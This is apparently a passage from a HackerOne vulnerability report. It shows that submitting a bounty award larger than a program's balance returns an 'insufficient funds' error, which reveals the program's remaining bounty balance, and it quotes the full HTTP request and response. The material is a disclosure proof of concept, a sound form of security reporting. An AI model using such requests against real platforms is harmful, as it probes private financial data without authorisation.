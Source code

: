 Try to make it higher to the exact bounty balance of the "HackerOne Program"

Request with higher than the exact bounty balance of the "HackerOne Program":

```
POST /reports/bulk HTTP/1.1
Host: hackerone.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: ██████████
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 176
Connection: close

message=&substate=bounty-award&bounty_amount=31731&reference=&add_reporter_to_original=false&reply_action=set-bounty&reports_count=1&report_ids%5B%5D=240273&bounty_currency=USD
```

Response with higher than the exact bounty balance of the "HackerOne Program":

```
HTTP/1.1 422 Unprocessable Entity
Date: Tue, 28 Nov 2017 20:45:47 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Cache-Control: private, no-cache, no-store, must-revalidate
Content-Disposition: inline; filename="response."
Content-Security-Policy: default-src 'none'; base-uri 'self'; connect-src 'self' www.google-analytics.com errors.hackerone.net; font-src 'self'; form-action 'self'; frame-ancestors 'none'; frame-src www.youtube-nocookie.com; img-src 'self' data: cover-photos.hackerone-user-content.com hackathon-photos.hackerone-user-content.com profile-photos.hackerone-user-content.com hackerone-attachments.s3.amazonaws.com; media-src 'self' hackerone-attachments.s3.amazonaws.com; script-src 'self' www.google-analytics.com; style-src 'self' 'unsafe-inline'; report-uri https://errors.hackerone.net/api/30/csp-report/?sentry_key=61c1e2f50d21487c97a071737701f598
Referrer-Policy: strict-origin-when-cross-origin
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Frame-Options: DENY
X-Permitted-Cross-Domain-Policies: none
X-XSS-Protection: 1; mode=block
Server: cloudflare-nginx
CF-RAY: 3c502c3d7bd86102-MNL
Content-Length: 101

{"flash":null,"reports":[{"errors":["Validation failed: insufficient funds to award this bounty."]}]}
```

As you can see on the response it's showing `"Validation failed: insufficient funds to award this bounty."`
So that's how i found a way to check the bounty balance of the bug bounty program.

PS. Even you saw the response `"flash":"You have successfully awarded a bounty."` . It's actually not sent to my account or recorded to my account. Also if it's worked maybe i'm gonna be `RICH` now Lol.
